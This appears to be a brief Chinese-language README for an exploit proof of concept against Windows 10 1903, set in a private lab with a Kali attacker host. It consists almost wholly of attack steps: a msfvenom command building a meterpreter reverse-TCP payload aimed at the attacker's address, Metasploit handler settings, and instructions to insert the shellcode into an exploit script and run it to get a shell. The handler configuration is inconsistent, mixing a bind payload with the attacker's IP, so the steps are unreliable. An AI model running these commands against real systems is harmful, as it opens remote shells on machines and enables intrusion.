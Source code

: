 #实验环境

攻击机 192.168,234.140(kali)
靶机   192.168.234.152(windows10_1903)

# msfvenom生成payload

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.234.140 LPORT=4444 -b '\x00' -i 1 -f python

# msf监听

use exploit/multi/handler

set payload windows/x64/meterpreter/bind_tcp

set lport 4444

set rhost 192.168.234.140

run

# poc替换

将USER_PAYLOAD中的payload换成msfvenom生成的payload

# getshell

python3 exploit.py -ip 192.168.234.152

![](./1.png)